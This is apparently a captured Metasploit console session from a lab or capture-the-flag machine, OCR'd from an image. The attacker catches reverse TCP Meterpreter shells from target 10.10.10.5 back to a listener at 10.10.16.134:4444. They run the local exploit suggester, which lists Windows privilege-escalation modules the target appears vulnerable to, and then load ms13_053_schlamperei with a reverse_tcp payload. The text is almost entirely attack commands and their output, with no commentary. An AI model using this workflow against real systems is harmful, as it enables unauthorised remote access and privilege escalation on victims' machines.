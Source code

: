 meterpreter > w
[*] 10.10.10.5 - Meterpreter session 2 closed.  Reason: Died
[*] 10.10.10.5 - Meterpreter session 1 closed.  Reason: Died
hoami
[-] Unknown command: whoami.
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.134:4444 
[*] Sending stage (175174 bytes) to 10.10.10.5
[*] Meterpreter session 3 opened (10.10.16.134:4444 -> 10.10.10.5:49192) at 2021-02-10 03:20:58 +0900

meterpreter > background
[*] Backgrounding session 3...
msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester 
msf6 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf6 post(multi/recon/local_exploit_suggester) > run
[-] Post failed: NoMethodError undefined method `session_host' for nil:NilClass
[-] Call stack:
[-]   /opt/metasploit-framework/embedded/framework/modules/post/multi/recon/local_exploit_suggester.rb:176:in `print_error'
msf6 post(multi/recon/local_exploit_suggester) > run
[-] Post failed: NoMethodError undefined method `session_host' for nil:NilClass
[-] Call stack:
[-]   /opt/metasploit-framework/embedded/framework/modules/post/multi/recon/local_exploit_suggester.rb:176:in `print_error'
msf6 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf6 post(multi/recon/local_exploit_suggester) > run
[-] Post failed: NoMethodError undefined method `session_host' for nil:NilClass
[-] Call stack:
[-]   /opt/metasploit-framework/embedded/framework/modules/post/multi/recon/local_exploit_suggester.rb:176:in `print_error'
msf6 post(multi/recon/local_exploit_suggester) > set session 3
session => 3
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 37 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms13_053_schlamperei
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms13_053_schlamperei) > set lhost tun0